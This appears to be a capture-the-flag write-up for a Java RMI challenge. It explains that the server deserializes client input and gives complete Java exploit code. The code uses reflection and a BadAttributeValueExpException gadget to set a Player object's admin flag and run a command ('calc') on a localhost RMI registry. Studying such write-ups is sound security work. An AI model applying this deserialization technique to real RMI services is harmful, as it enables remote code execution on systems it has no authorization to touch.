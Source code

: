 ## Solution
![rmi_services](https://camo.githubusercontent.com/c43f75e8d4e527ddc3ddd8658e96f983ea95c058d6f404eb7c115b7745e1eca1/68747470733a2f2f692e696d6775722e636f6d2f636b564b6f727a2e706e67)
Create Client to interactive with rmi server, rmi use 100% java serialize/unserialize to transform data so attacker can send malicious serialize object to server and let it unserialize

In Player class we can see the check isAdmin() and method toString() let us run command, so we use java reflect to modify their value, and call gadget
```
gadget BadAttributeValueExpException.readObject() -> Player.toString()
```
to call toString of Player

## ASCISPlayer rce call calculator
```java
package rmi;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {
        String serverIP = "127.0.0.1";
        int serverPort = 1099;
        String command = "calc";

        // Dùng reflection để set các private variable trong class
        Player player = new Player();
        Field isAdmin = player.getClass().getDeclaredField("isAdmin");
        isAdmin.setAccessible(true);
        isAdmin.set(player, true);

        Field logCommand = player.getClass().getDeclaredField("logCommand");
        logCommand.setAccessible(true);
        logCommand.set(player, command);

        // Class này khi được deserialize sẽ tự động gọi object val với method toString()
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, player);

        // Với Remote Method Invocation. Gọi ASCISInterfImpl.login() với arg là object player
        Object name = val;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        System.out.println(ascisInterf.login(name));
    }
}
```
